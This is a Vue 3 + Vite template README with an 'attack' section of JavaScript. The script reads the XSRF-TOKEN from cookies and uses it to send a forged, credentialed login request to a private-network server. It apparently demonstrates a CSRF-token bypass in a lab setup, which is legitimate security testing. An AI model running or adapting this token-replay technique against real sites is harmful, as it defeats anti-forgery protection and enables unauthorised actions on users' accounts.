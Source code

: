 # Vue 3 + Vite

This template should help get you started developing with Vue 3 in Vite. The template uses Vue 3 `<script setup>` SFCs, check out the [script setup docs](https://v3.vuejs.org/api/sfc-script-setup.html#sfc-script-setup) to learn more.

## Recommended IDE Setup

- [VSCode](https://code.visualstudio.com/) + [Volar](https://marketplace.visualstudio.com/items?itemName=johnsoncodehk.volar)

## attack

```
var token
var cookies = document.cookie
var cookiesSplit = cookies.split(": ")
for (var i in cookiesSplit) {
  var cookie = cookiesSplit[i]
  var cookieSplit = cookie.split("=")
  if (cookieSplit[0] === 'XSRF-TOKEN') {
    token = cookieSplit[1]
  }
}
console.log('从 Cookie 获取的 Token：', token)

var data = new FormData();
data.append("username", "xuxiaowei");
data.append("password", "123");

var xhr = new XMLHttpRequest();
xhr.withCredentials = true;

xhr.addEventListener("readystatechange", function() {
  if(this.readyState === 4) {
    console.log('登录结果：', this.responseText);
  }
});

xhr.open("POST", "http://192.168.5.3:8080/login");
xhr.setRequestHeader("X-XSRF-TOKEN", token);

xhr.send(data);
```
